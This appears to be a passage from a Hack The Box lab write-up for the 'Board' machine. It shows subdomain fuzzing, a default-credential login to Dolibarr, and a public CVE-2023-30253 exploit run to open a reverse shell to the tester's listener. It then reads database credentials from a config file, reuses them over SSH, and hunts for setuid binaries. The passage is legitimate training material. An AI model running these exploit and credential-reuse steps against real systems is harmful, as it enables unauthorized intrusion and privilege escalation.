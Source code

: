 ```

```
ffuf -w subdomains-top1million-20000.txt -u http://FUZZ.board.htb -fs 15949
```

Note: ```-fs <size>```: we can specify a single size or multiple sizes separated by commas to filter those specific response sizes from the results.

This scan revealed the subdomain ```crm.board.htb```, which I also added to my ```/etc/hosts``` file. Upon accessing this subdomain, I encountered a Dolibarr web application featuring a login page. Attempting some default credentials turned out to be a successful strategy, as I was able to log in using the admin:admin
combination.

Exploring the admin panel didn’t uncover anything particularly interesting, so my next step was to manually search for known exploits for ```Dolibarr 17.0.0.``` This led me to a [GitHub page](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main) discussing how to exploit CVE-2023-30253 for this application.

Grabbing this exploit was the next step:

```
git clone https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```

Then I had to set up my ncat listener or port 1234 and pass the following parameters before execution:

```
python3 exploit.py http://crm.board.htb admin admin 10.10.14.9 1234
```

Once a shell was established, I began searching for other users. Using the command ```ss -tlnp```, I discovered a MySQL server running on port 3306. An online search revealed some interesting information: *"The Dolibarr configuration file is ```conf/conf.php```, which is created by the automatic installation process."*

After navigating to the specified directory and inspecting the contents of the ```conf.php``` file, I found the cleartext password for the database connection. However, I initially lacked a valid username. Through some trial and error, I eventually discovered that the username ```larissa``` worked with this password, allowing me to SSH into the machine.

As for privilege escalation, I used this command to find out more about the machine:

```
find / -perm -4000 2>/dev/null
```

Note: The ```4000``` is an octal representation of file permissions. The leading ```4``` indicates the setuid (set user ID) permission. When a file has the setuid bit set, it allows a user to execute the file with the permissions of the file's owner, typically granting elevated privileges. Overall, by running this command, a user can identify files with the setuid bit set. If any of these files are exploitable (e.g., if they contain vulnerabilities that can be manipulated), a user can run them to escalate their privileges to the file owner’s level (often root). Suppose the command returns a file like ```/usr/bin/```. If this binary has a known vulnerability, a non-privileged user can exploit it to gain higher privileges.

The output revealed an interesting utility named "enlightenment," which warranted closer inspection.

```
(...)
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backligh